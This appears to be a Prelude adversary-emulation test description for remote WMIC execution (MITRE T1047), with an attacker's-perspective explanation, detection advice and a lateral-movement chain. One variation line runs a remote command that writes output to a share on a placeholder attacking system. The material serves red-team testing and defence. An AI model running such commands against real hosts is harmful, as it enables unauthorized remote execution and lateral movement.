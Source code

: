 
# Test remote WMIC access

---

#### Metadata

- *Prelude ID*: 661efd66-d876-41de-88ee-ba9ec4328154
- *MITRE Technique ID*: [T1047](https://attack.mitre.org/techniques/T1047/)

---

### A hacker's perspective

---

Windows Management Interface Command (WMIC) is a powerful "live-off-the-land" binary for interacting with WMI. Knowing that I am able to execute WMI commands against remote systems tells me several things about my current permissions and how the target host is configured. I know, first of all, that my user has requisite privileges to execute commands remotely, which can allow me to move laterally in a number of ways. Secondly, I can make the assumption that remote hosts are Distributed Component Object Model (DCOM) accessible, which lets me know I have a possible execution mechanism on that host. 

### Expected output

---

Short response indicated a (Win32_Process)->Create() was successful on the remote system with a return value of 0. 

### Basic variations

---

This command can easily be modified for both local and remote discovery. With WMIC, we could also query other WMI classes like Win32_ComputerSystem or Win32_Share to discover more about the system. It is also possible to execute more intricate commands to get a response by using a technique like 'process call create "cmd.exe /c whoami >> \\<ATTACKING SYSTEM>\<PUBLIC SHARE>\cmd_response.txt"'. 

### Prevent + Detect

---

Capturing PowerShell and command-line input would allow defenders to see calls to the WMIC binary, which might be suspicious depending upon the environment. Additionally, consider disabling DCOM access so that WMIC cannot be used to execute code through DCOM remotely. The Windows firewall will block DCOM access by default as well, so review domain Group Policy Objects (GPOs) to ensure that Windows firewall is enabled and configured to block inbound DCOM. 

### How it is chained

---

An attacker that is testing their ability to execute commands/process on remote systems is almost certainly looking to move laterally to a new target. Likely next steps would be staging tools on the remote system (T1570) via SMB or another innocous protocol, then executing the staged payload with WMIC over DCOM (T1021.003) or WinRM (T1021.006). 
